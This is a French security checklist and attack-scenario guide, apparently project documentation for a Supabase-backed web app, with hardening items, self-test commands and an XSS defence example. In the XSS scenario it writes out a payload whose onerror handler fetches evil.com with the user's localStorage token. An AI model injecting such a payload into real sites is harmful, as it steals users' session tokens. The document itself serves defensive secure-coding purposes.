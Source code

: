 - [ ] **CSP** : Content Security Policy configurée dans `index.html`
- [ ] **Headers de sécurité** : X-Frame-Options, X-Content-Type-Options, etc.
- [ ] **RLS Supabase** : TOUTES les tables ont RLS activé
- [ ] **Validation forte** : Mot de passe minimum 12 caractères avec complexité
- [ ] **Sanitization** : Tous les inputs utilisateurs sont sanitisés
- [ ] **Rate limiting** : Frontend ET backend
- [ ] **CSRF protection** : Tokens CSRF sur toutes les mutations
- [ ] **Logs sécurisés** : Pas de données sensibles dans les logs production
- [ ] **Monitoring** : Alertes configurées pour activités suspectes
- [ ] **Dependencies** : `npm audit` sans vulnérabilités HIGH/CRITICAL
- [ ] **Sourcemaps** : Désactivés en production
- [ ] **console.log** : Supprimés en production
- [ ] **HTTPS** : SEULEMENT HTTPS en production (pas de HTTP)
- [ ] **SRI** : Subresource Integrity pour tout CDN externe

### Tests de pénétration

```bash
# ✅ Commandes pour tester votre sécurité

# 1. Scan des vulnérabilités npm
npm audit

# 2. Tester les headers de sécurité
curl -I https://trophenix.com

# 3. Tester CSP
# Ouvrir la console browser et essayer :
eval('alert("XSS")'); // Doit être bloqué par CSP

# 4. Tester RLS Supabase
# Essayer d'accéder aux données d'un autre user

# 5. Brute force protection
# Essayer 10+ connexions échouées rapidement
```

---

## 🎯 Scénarios d'attaque et défenses

### Scénario 1 : XSS (Cross-Site Scripting)

**Attaque** :
```javascript
// Attaquant injecte dans un champ de commentaire
<img src=x onerror="fetch('https://evil.com/steal?token='+localStorage.getItem('token'))">
```

**Défense** :
```typescript
// ✅ Sanitization stricte
import DOMPurify from 'dompurify';

const cleanInput = DOMPurify.sanitize(userInput);

// ✅ CSP bloque l'exécution de scripts inline
// ✅ Utiliser textContent au lieu de innerHTML
element.textContent = userInput; // Pas d'exécution de HTML
```
